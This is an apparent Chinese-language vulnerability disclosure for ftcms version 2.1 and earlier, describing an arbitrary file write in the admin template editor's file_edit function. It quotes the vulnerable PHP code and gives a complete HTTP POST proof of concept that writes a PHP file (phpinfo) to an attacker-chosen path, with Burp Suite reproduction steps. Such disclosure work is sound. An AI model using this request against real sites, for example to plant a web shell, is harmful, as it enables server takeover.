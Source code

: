 # ftcms存在任意文件写入漏洞

供应商：http://www.ftcms.cn/

软件下载链接：http://www.ftcms.cn/skin/ftcms_v2.1.zip

影响版本：ftcms<=2.1

## 1.漏洞分析

此任意文件写入漏洞的原理是使用后台模板函数修改本地文件造成的。接下来，根据代码分析漏洞是如何引起的。

首先，找到模板并修改文件代码。文件位置为admin/controllers/tp.php

```text
对应请求链接为
http://demo.ftcms.cn/admin/index.php/tp/file_edit/?style=template&tp=default&file=../config.php
```

数据库配置写入的相应方法是file_edit

```php
	 //编辑文件	 
   public  function file_edit(){
	         $this->load->helper('file');//加载文件辅助函数
            $data=$this->input->post();
            if(!empty($data)){//写入文件信息
				 $style = isset($data['info']['style']) && trim($data['info']['style']) ? trim($data['info']['style']) : '';
				 $file = isset($data['info']['file']) && trim($data['info']['file']) ? trim($data['info']['file']) : '';
				 $tp=$data['info']['tp'];
				  
				  $dir=$file;

				 if(write_file($dir, $data['info']['content'])){
				         $this->message('修改成功！',site_url($this->router->class.'/file_lists?style='.$style.'&tp='.$tp));
                 }else{

                       $this->message('修改失败 ！请检查文件权限'.$dir,site_url($this->router->class.'/file_lists?style='.$style.'&tp='.$tp));
                 }

			}else{
			     $style = isset($_GET['style']) && trim($_GET['style']) ? trim($_GET['style']) : '';
				 $file = isset($_GET['file']) && trim($_GET['file']) ? trim($_GET['file']) : '';
				 $data['tp']=$_GET['tp'];

				$dir=$file;
			    $data['file']=$file;
			    $data['style']=$style;
				$data['res']=read_file($dir);//获取文件内容
				
				$this->load->vars('data',$data);	
				$this->load->view($this->router->class.'/file_edit');
			}	
			
    }
```

![image](https://user-images.githubusercontent.com/54017627/168748444-8d372173-606d-48cd-8742-1e5bc52dc004.png)

首先，将使用帮助类中的文件帮助程序函数

然后在输入类中使用$this - >输入 - > post（）;从用户的帖子中获取所有数据的方法。根据数据内容是否为空来执行以下两个分支。当过帐数据不为空时，将执行以下分支

![image](https://user-images.githubusercontent.com/54017627/168748521-63ba1822-a130-43ec-bccb-c0f5c3f437c0.png)

![image](https://user-images.githubusercontent.com/54017627/168748532-6fc6821e-3f46-41f3-a0e6-7ea16d6a1c4e.png)

首先，判断样式和文件这两个参数是否在请求中设置。如果是这样，请使用 trim 函数删除空格，否则它将为空。然后直接从请求中获取TP参数。此参数尚未经过过滤和处理，这也为后续漏洞利用铺平了道路

![image](https://user-images.githubusercontent.com/54017627/168748576-cff031de-b38d-4a14-9310-b289c3e3f9c6.png)

然后将$file变量的内容赋给$dir变量

![image](https://user-images.githubusercontent.com/54017627/168748609-7788f0a3-183d-4e74-9891-6f7b0ba4ddd1.png)

然后调用 write_ file 函数将$date中的内容写入指定的文件。未检测到要写入的内容和要写入的文件路径。因此，可以写入任何文件，从而导致任意代码执行漏洞 

write_ 文件函数位于帮助类中。让我们跟随并分析它

![image](https://user-images.githubusercontent.com/54017627/168748702-8ae90f14-c997-4e13-baf1-2ec2038b0ba9.png)

文件写入使用 fopen。 

最终的 POC 如下所示

```php
POST /admin/index.php/tp/file_edit HTTP/1.1
Host: ft.rapoo.top
Content-Length: 613
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ft.rapoo.top
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLr5g9ZAUkCZeeyrl
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://ft.rapoo.top/admin/index.php/tp/file_edit/?style=template&tp=default&file=D:\phpstudy_pro\WWW\ft.rapoo.top\application\views\default\ceshi.php
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryLr5g9ZAUkCZeeyrl
Content-Disposition: form-data; name="info[content]"

<?php
phpinfo();
?>//这里为需要写入的内容
------WebKitFormBoundaryLr5g9ZAUkCZeeyrl
Content-Disposition: form-data; name="info[style]"

template
------WebKitFormBoundaryLr5g9ZAUkCZeeyrl
Content-Disposition: form-data; name="info[tp]"

default
------WebKitFormBoundaryLr5g9ZAUkCZeeyrl
Content-Disposition: form-data; name="info[file]"

需要写入的文件路径
------WebKitFormBoundaryLr5g9ZAUkCZeeyrl
Content-Disposition: form-data; name="dosubmit"

æäº¤
------WebKitFormBoundaryLr5g9ZAUkCZeeyrl--
```

## 2.漏洞复现

### 2.1 登录网站

![image](https://user-images.githubusercontent.com/54017627/168748888-5df6f14b-5f38-477e-bae0-01494ac9bef2.png)

### 2.2 写入文件

只需使用 burpsuite 发送请求

![image](https://user-images.githubusercontent.com/54017627/168748982-bfbcf940-2aea-413a-96a7-43610ba089f7.png)

![image](https://user-images.githubusercontent.com/54017627/168749005-e05dd818-effd-4f04-a2b9-c3efbf75ef30.png)

并在浏览器中请求文件

![image](https://user-images.githubusercontent.com/54017627/168749052-d349138b-d066-425f-8a1f-94c64c33abcd.png)
